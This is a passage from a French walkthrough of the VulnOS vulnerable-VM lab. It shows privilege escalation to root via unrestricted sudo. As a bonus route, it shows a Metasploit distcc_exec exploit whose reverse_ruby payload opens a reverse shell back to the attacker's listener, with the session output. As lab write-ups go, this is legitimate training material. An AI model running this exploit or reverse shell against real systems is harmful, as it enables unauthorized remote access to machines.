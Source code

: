 ```console

User vulnosadmin may run the following commands on this host:
    (ALL) ALL

vulnosadmin@VulnOS:~$ sudo su
root@VulnOS:/home/vulnosadmin# id
uid=0(root) gid=0(root) groepen=0(root)
root@VulnOS:/home/vulnosadmin# cd /root/
root@VulnOS:~# ls
hello.txt
root@VulnOS:~# cat hello.txt 
Hello,

So you got root... You still need to find the rest of the vulnerabilities inside the OS !

TRY HARDER !!!!!!!
```

Pwned  

Cadeau bonux
------------

Alternativement, il est possible d'exploiter le distcc (un serveur de compilation) présent sur le système :  

```
msf exploit(distcc_exec) > show options

Module options (exploit/unix/misc/distcc_exec):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.1.29     yes       The target address
   RPORT  3632             yes       The target port

Payload options (cmd/unix/reverse_ruby):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.3      yes       The listen address
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(distcc_exec) > exploit

[*] Started reverse handler on 192.168.1.3:4444 
[*] Command shell session 1 opened (192.168.1.3:4444 -> 192.168.1.29:49089) at 2014-05-29 10:08:28 +0200

id
uid=104(distccd) gid=65534(nogroup) groups=65534(nogroup)
```
